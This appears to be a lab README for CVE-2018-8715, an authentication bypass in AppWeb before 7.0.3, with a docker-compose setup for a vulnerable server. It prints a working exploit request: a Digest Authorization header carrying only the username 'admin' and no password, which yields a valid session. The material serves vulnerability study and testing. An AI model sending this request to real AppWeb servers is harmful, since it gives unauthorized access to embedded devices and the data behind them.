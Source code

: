# AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

[中文版本(Chinese version)](README.zh-cn.md)

AppWeb is an embedded Web Server based on an open source GPL agreement that was developed and maintained by Embedthis Software LLC. It is written in C/C++ and can run on almost any modern operating system. Of course, it aims to provide a Web Application container for embedded devices.

AppWeb can be configured for authentication, which includes the following three authentication methods:

- `basic`, traditional HTTP basic authentication
- `digest`, improved HTTP basic authentication. At this mode, the Cookie will be used to authentication instead of `Authorization` header.
- `form`, HTML based form authentication

In the Appweb versions before 7.0.3, have a logic flaw related to the authCondition function in `http/httpLib.c`. With a forged HTTP request, it is possible to bypass authentication for the `form` and `digest` login types.

Reference link:

- https://ssd-disclosure.com/index.php/archives/3676

## Vulnerability environment

Launch an Appweb 7.0.1 server with `digest` authentication by executing the following command:

```
docker-compose up -d
```

To access `http://your-ip:8080`, you need to enter your account password.

## Exploit

The current username is `admin`, so you can use following request to bypass the authentication:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see, since we did not pass in the password field, the server error occurred with a `200 status code` and the session setting header:

![](1.png)

The page can be accessed normally with this session header:

![](2.png)